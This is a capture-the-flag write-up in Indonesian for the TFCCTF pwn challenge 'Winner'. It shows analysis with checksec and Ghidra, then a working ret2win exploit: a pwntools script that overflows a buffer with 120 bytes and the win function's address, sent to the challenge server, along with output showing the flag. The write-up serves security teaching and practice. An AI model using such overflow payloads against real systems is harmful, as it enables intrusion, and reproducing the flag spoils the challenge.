








## Winner



## Overview & Description

Author : tomadimitrie

Points : 50

You just won a contest! What do you do? [winner](https://ctf.thefewchosen.com/attachments/1497e223-1f6c-4c28-9fa2-f6e3fdfd61dd.main)

## Hints


## Step by Step

1. Download file ELF yang diberikan, berikut rincian keamanan dalam checksec



2. Seperti challenge pwn sebelumnya, program ini membutuhkan libc 2.34, untuk itu kita lakukan patch menggunakan pwninit lagi





3. Program tersebut meminta kita untuk memasukkan nama, dikatakan bahwa kita memenangkan sebuah hadiah, dan program meminta input nama



4. Cek program melalui ghidra dan disassemble function main, namun disini yang membuat mata saya tertuju adalah, function win



5. Jadi, jika kita berhasil men-trigger function tersebut, maka function akan execute flag menggunakan getenv()

6. Jadi saya berpikir bahwa cara untuk bypass program ini adalah dengan ret2win, yang diperlukan adalah offset program dimana program akan terkena segfault, lalu kita tambahkan address win didalam payload

7. Disini saya mencoba meng-inputkan string sebanyak 120, dan terjadi lah segfault, yang menyebabkan rbp (base pointer) terisi dengan 8 bytes dari string tersebut, disini kita bisa memasukkan address win di base pointer



8. Langsung saja kita buat scriptnya

```python
#!/usr/bin/env python3

from pwn import *
import struct

server = "01.linux.challenges.ctf.thefewchosen.com"
port = 49640


io = remote(server, port)

payload = b"A" * 120 + struct.pack("<Q", 0x0004011be)

io.sendline(payload)

io.interactive()
```

9. 0x0004011be adalah address dimana function win akan men-trigger getenv(), maka kita tambahkan didalam payload setelah offset ditemukan



10. Kita jalankan script tersebut, dan ketemu flagnya

```console
┌──(sh1roneko㉿xvrf)-[~/…/CTF/TFCCTF/pwn/winner]
└─$ python3 solver.py      
[+] Opening connection to 01.linux.challenges.ctf.thefewchosen.com on port 49640: Done
[*] Switching to interactive mode
Congratulations! You have just won a contest! Input your name to claim your prize: 
TFCCTF{C0ngr4tulati0n5_0n_th3_pr1z3!}Congratulations! You have just won a contest! Input your name to claim your prize: 
[*] Got EOF while reading in interactive
$  
```


## Flag

`TFCCTF{C0ngr4tulati0n5_0n_th3_pr1z3!}`
